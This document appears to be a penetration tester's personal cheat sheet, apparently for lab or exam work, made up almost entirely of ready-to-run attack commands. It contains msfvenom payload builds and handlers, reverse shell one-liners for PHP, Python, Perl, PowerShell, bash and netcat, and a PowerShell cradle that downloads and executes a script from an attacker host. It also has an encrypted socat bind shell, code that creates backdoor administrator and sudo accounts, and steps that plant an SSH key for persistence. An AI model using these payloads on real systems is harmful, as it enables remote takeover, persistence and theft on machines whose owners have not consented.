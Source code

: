# The cheap way

1. Build payload and launch handler according to https://pentest.ws/tools/venom-builder 
> Warning: Use `windows/shell_reverse_tcp`, because `windows/shell/reverse_tcp` is a staged payload.

TCP reverse shell tested
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 -e cmd/powershell_base64 NOEXIT -f exe -o test.exe
```

BAT reverse shell tested
```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.45.197 LPORT=4446 -o revshell.ps1
```

```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD cmd/windows/reverse_powershell; set LHOST 192.168.45.197; set LPORT 4446; run"
```

EXE reverse shell tested
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 -f exe -o revshell.exe
```

PowerShell reverse shell tested
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.197 LPORT=4446 NOEXIT -f raw -o revshell.ps1
```
> Important: Do not use the file but instead the powershell command it incorporates within a whole lot of gibberish

Encode payload
```bash
msfvenom --payload $payload LHOST=$hip LPORT=$hport --format psh | msfvenom --payload - --platform win --arch x86 --encoder base64 NOEXIT SYSWOW64
```

# The manual way

[Shell Folder](file:////home/kali/Documents/shells/)

## Determine compatibility
Linux:
```bash
whoami;echo ----------;bash --version;echo ----------;which nc;echo ----------;python --version;echo ----------;php --version;echo ----------;perl --version
```
## Universal

PHP (`php -r ''`)
```php
$sock=fsockopen("$hip",$hport);exec("/bin/sh -i <&3 >&3 2>&3");
```
Python (`python -c ''`)
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$hip",$hport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Perl (`perl -e ''`)
```perl
use Socket;$i="$hip";$p=$hport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```
Meterpreter
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=$port --platform windows -a x64 -f exe -o mp.exe
```

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

## Windows

Invoke-PowershellTcp.ps1
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:8000/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress 192.168.45.197 -Port 4444"
```
Bind
```powershell
ncat.exe -lknv --allow $hip -e "cmd.exe" 4545
```
NC
```powershell
ncat.exe $hip $hport -e "cmd /c (cmd 2>&1)"
```
CMD2PS
```powershell
powershell.exe -nop -NoExit -NonInteractive -EP Bypass -c "\inetpub\wwwroot\Invoke-PowsershellTcp.ps1 -Reverse -IPAddress $hip -Port $hport"
```
PS
```powershell
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('$hip',$hport);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


## Linux

Bash
```bash
bash -i >& /dev/tcp/$hip/$hport 0>&1
```
NC v1
```bash
nc -e /bin/sh $hip $hport
```
NC v2
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $hip $hport >/tmp/f
```


## Upgrades

Perl
```perl
perl -e 'exec "/bin/bash";'
```
Bash
```bash
echo os.system('/bin/bash')
```
Python
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Socat (https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.182:4445
```

Encrypted Socat
- Create certificate
   ```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt && cat bind_shell.key bind_shell.crt > bind_shell.pem
```
- Open Listener
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
- Connect to it via the target machine
```bash
socat - OPENSSL:$ip:443,verify=0
```

tty
```bash
nc -lvnp 4444&
```

```bash
echo $TERM && stty -a && stty raw -echo
```

`fg` and `reset`

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
(adjust according to the information colleted above)


## Fixes
Check wheter we are in CMD or Powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
Check if `bash` is interactive
```bash
[[ $- == *i* ]] && echo 'Interactive' || echo 'Not interactive'
```
Check if `PS` is interactive
```powershell
[Environment]::GetCommandLineArgs()
```

Fix Output
```bash
stty raw -echo
```
Set TERM
```bash
export TERM=xterm
```
Get Window Size
```bash
stty size
```
Fix Window Size
```bash
stty rows X cols Y
```
Fix PATH
```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Add colors
```bash
export TERM=xterm-256color
```
Reload bash
```bash
exec /bin/bash
```


# Create Admin-User

##### Windows
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
(See [[8_crosscompile2windows_guide]])
##### Linux
```bash
sudo adduser --system --shell /bin/bash --no-create-home us3r && echo -e 'Testp4ssw0rd\nTestp4ssw0rd' | sudo passwd us3r && sudo usermod -aG sudo us3r
```

## Setup SSH

(kali)
`ssh-keygen -t rsa -b 4096 -C "$username@$domain" -f ./created_id_rsa`
`python3 -m http.server 8080`

(target)
`curl -L http://$hip:8080/created_id_rsa.pub -o id_rsa.pub`
`cat id_rsa.pub >> .ssh/authorized_keys`
`chmod 600 .ssh/authorized_keys`